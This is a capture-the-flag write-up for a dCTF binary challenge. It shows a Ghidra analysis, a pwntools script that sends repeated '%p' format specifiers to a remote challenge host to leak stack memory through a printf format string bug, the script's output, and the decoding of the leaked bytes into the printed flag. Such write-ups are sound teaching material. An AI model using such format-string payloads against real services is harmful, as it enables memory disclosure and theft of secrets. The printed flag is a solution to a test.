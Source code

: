 # Readme

## Description

Read me to get the flag.

`nc dctf-chall-readme.westeurope.azurecontainer.io 7481`

[readme](readme)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the format string vulnerability: there is a `printf` function with a user-controlled buffer.

![img1](/home/teozoia/Desktop/WRITEUPS/Readme/img/img1.png)

The idea is send some `%x` / `%d` / ` %s` / `%p` in order to dump the flag just readed and placed in the `flag_buffer` array.

```python
from pwn import *

elf = ELF('./readme')
p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)
payload = '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p' #bounch of %p

p.sendline(payload)
p.recvline()
p.interactive()
```

The output of the python script is:

```
┌──(kali㉿kali)-[~/Desktop/dragonsec/readme]
└─$ python3 readmyb00th0l3.py
[*] '/home/kali/Desktop/dragonsec/readme/readme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
[*] Switching to interactive mode
hello 0x7ffe59b6a440(nil)(nil)0x60x6(nil)0x55c5388bc2a00x77306e7b667463640x646133725f30675f0x30625f656d30735f0x7f7300356b300x70257025702570250x70257025702570250x7025702570257025[*] Got EOF while reading in interactive
```

Now with a simple recovery of the stack dumped we can spot the flag:

```
  RAW BYTE        ASCII    ASCII (inverted little-endian)
55cff83cd2a0     --junk--
77306e7b66746364 w0n{ftcd dctf{n0w
646133725f30675f da3r_0g_ _g0_r3ad
30625f656d30735f 0b_em0s_ _s0me_b0
7ff900356b30     .ù5k0    0k5}
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
```

#### **FLAG >>** ``dctf{n0w_g0_r3ad_s0me_b00k5}
